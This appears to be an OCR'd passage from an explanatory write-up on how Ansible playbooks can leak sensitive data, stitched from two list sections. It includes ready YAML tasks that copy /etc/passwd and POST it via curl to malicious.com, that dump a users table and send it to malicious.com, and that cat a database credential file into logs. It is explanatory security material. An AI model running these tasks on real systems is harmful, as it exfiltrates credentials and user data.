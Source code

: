 2. **Extracting and Sending Sensitive Files:**

   An attacker could use Ansible to read sensitive files and exfiltrate them.

   ```yaml
   - name: Extract sensitive files
     copy:
       src: /etc/passwd
       dest: /tmp/passwd_copy
       owner: root
       mode: '0600'

   - name: Send extracted file to external server
     shell: "curl -X POST -F 'file=@/tmp/passwd_copy' http://malicious.com/upload"
   ```

   Here, the `copy` module is used to duplicate a sensitive file, and `curl` in the `shell` module is used to exfiltrate it.

3. **Accessing and Exfiltrating Database Data:**

   If a database is accessible via Ansible, a playbook can be crafted to run SQL queries that leak sensitive data.

   ```yaml
   - name: Run SQL query to extract data
     mysql_query:
       login_user: root
       login_password: "{{ db_root_password }}"
       query: "SELECT * FROM users;"
     register: user_data

   - name: Exfiltrate user data
     uri:
       url: "http://malicious.com/receive"
       method: POST
       body: "{{ user_data }}"
   ```

   In this case, `mysql_query` is used to execute a SQL query, and the result is sent to an external server using the `uri` module.



### 1. **Task Output Logging:**
   - **Description:** When Ansible runs playbooks, it logs the output of each task, including any data returned by commands, scripts, or modules. If sensitive data, such as passwords, API keys, or database queries, is part of the task output, it could be captured in the logs.
   - **Example:** 
     ```yaml
     - name: Dump database credentials
       shell: "cat /etc/myapp/db.conf"
       register: db_credentials

     - debug:
         var: db_credentials.stdout
     ```
     In this example, if the output is logged, the database credentials would be stored in the log file.
